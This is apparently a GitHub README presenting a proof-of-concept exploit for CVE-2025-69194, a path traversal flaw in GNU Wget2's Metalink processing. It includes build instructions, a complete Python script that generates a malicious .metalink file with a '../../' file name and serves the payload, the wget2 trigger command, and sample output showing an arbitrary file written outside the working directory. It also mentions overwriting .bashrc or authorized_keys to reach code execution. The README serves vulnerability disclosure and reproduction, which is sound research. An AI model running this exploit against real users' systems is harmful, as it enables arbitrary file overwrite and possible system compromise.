



# CVE-2025-69194: GNU Wget2 Path Traversal Vulnerability

## 📝 Description

PoC for **CVE-2025-69194**, a critical Path Traversal vulnerability in **GNU Wget2 <= 2.2.0** (verified on v1.99.1). This vulnerability allows attackers to achieve arbitrary file write or overwrite on the victim's filesystem by providing a malicious Metalink file with manipulated `file name` attributes.

When Wget2 processes a Metalink file using the `--force-metalink` option, it fails to properly sanitize directory traversal sequences (e.g., `../../`). This can lead to **Remote Code Execution (RCE)** if an attacker overwrites sensitive system files (like `.bashrc`, `.ssh/authorized_keys`) or system binaries.

---

## 🛠️ Testing Environment (Ubuntu 22.04)

To accurately reproduce the vulnerability, we compile **Wget2 v1.99.1** from source to ensure the vulnerable Metalink module is active and unpatched.

### 1. Install Dependencies

```bash
sudo apt update && sudo apt install -y build-essential libgnutls28-dev libxml2-dev \
                     libzstd-dev liblzma-dev libpcre2-dev libidn2-dev libpsl-dev \
                     libbrotli-dev autoconf automake libtool gettext pkg-config python3

```

### 2. Compile and Install Wget2 v1.99.1

```bash
wget https://ftp.gnu.org/gnu/wget/wget2-1.99.1.tar.gz
tar -xvf wget2-1.99.1.tar.gz && cd wget2-1.99.1
./configure --with-libxml2
make -j$(nproc)
sudo make install && sudo ldconfig

# Verify installation (+metalink support is required)
wget2 --version | grep -E "1.99.1|metalink"

```

---

## 🚀 Proof of Concept (PoC)

### 1. Attacker Side (Python Exploit Server)

The attacker hosts a malicious `.metalink` file and the corresponding payload. Save the following as `poc.py`:

```python
import os
import hashlib
import http.server
import socketserver
import threading
import time

# --- 配置区 ---
TARGET_FILE_NAME = "../../pwned_test.txt"  # 想要穿越到的目标路径
PAYLOAD_CONTENT = "pwned by CVE-2025-69194\n"
PORT = 8000
METALINK_FILE = "exploit.metalink"
PAYLOAD_FILE = "evil.dat"


def create_files():
    # 1. 创建载荷文件
    with open(PAYLOAD_FILE, "w") as f:
        f.write(PAYLOAD_CONTENT)

    # 计算 SHA256
    sha256_hash = hashlib.sha256(PAYLOAD_CONTENT.encode()).hexdigest()
    file_size = len(PAYLOAD_CONTENT)

    # 2. 构造恶意的 Metalink 结构
    metalink_content = f'''<?xml version="1.0" encoding="UTF-8"?>
<metalink xmlns="http://www.metalinker.org/">
  <files>
    <file name="{TARGET_FILE_NAME}">
      <size>{file_size}</size>
      <verification>
        <hash type="sha256">{sha256_hash}</hash>
      </verification>
      <resources>
        <url type="http">http://127.0.0.1:{PORT}/{PAYLOAD_FILE}</url>
      </resources>
    </file>
  </files>
</metalink>
'''
    with open(METALINK_FILE, "w") as f:
        f.write(metalink_content)
    print(f"[+] 恶意文件 {METALINK_FILE} 已生成。")


def start_server():
    handler = http.server.SimpleHTTPRequestHandler
    with socketserver.TCPServer(("", PORT), handler) as httpd:
        print(f"[*] 恶意服务器已在端口 {PORT} 启动...")
        httpd.serve_forever()


if __name__ == "__main__":
    # 清理旧文件
    if os.path.exists(TARGET_FILE_NAME):
        os.remove(TARGET_FILE_NAME)

    create_files()

    # 启动后台服务器
    server_thread = threading.Thread(target=start_server, daemon=True)
    server_thread.start()

    time.sleep(1)  # 等待服务器就绪

    print("\n[!] 现在请在另一个终端执行以下命令进行复现：")
    print(f"wget2 --force-metalink -i {METALINK_FILE}")
    print(f"\n[!] 执行后，检查目标文件是否存在：")
    print(f"ls {TARGET_FILE_NAME} && cat {TARGET_FILE_NAME}")

    # 保持主线程运行
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("\n[+] 演示结束，正在清理...")


```

### 2. Victim Side (Triggering the Exploit)

Run the following command in a sub-directory (e.g., `~/Downloads/CVE-2025-69194/`) to observe the directory escape:

```bash
# Pre-check: Verify the file does not exist in the parent's parent directory
ls ../../pwned_test.txt

# Execute the exploit
wget2 --force-metalink -i exploit.metalink

```

---

## 📊 Technical Analysis

The vulnerability exists in the Metalink parsing logic where the `name` attribute is trusted without normalization.

| Phase | Description |
| --- | --- |
| **Input** | Wget2 reads `<file name="../../pwned_test.txt">`. |
| **Bypass** | No check is performed to see if the path contains `../` or attempts to leave the CWD. |
| **Write** | Wget2 opens the resolved path `CWD + ../../pwned_test.txt` and writes the verified payload. |

---

## 📝 Sample Output (Verified)

As demonstrated in the successful reproduction, the file `pwned_test.txt` was created two levels above the execution folder:

```text
lele@u22:~/Downloads/CVE-2025-69194$ ls ../../pwned_test.txt
ls: cannot access '../../pwned_test.txt': No such file or directory

lele@u22:~/Downloads/CVE-2025-69194$ wget2 --force-metalink -i exploit.metalink
downloading part 1/1 (0-23) ../../pwned_test.txt from 127.0.0.1
HTTP response 200 OK [http://127.0.0.1:8000/evil.dat]
part 1 downloaded
../../pwned_test.txt checking...
Checksum OK for '../../pwned_test.txt'

lele@u22:~/Downloads/CVE-2025-69194$ ls ../../pwned_test.txt && cat ../../pwned_test.txt
../../pwned_test.txt
pwned by CVE-2025-69194

```

---




## ⚠️ Disclaimer

This tool is provided for **educational and authorized security testing purposes only**. The author is not responsible for any damage caused by the misuse of this information. Unauthorized access to computer systems is strictly prohibited.
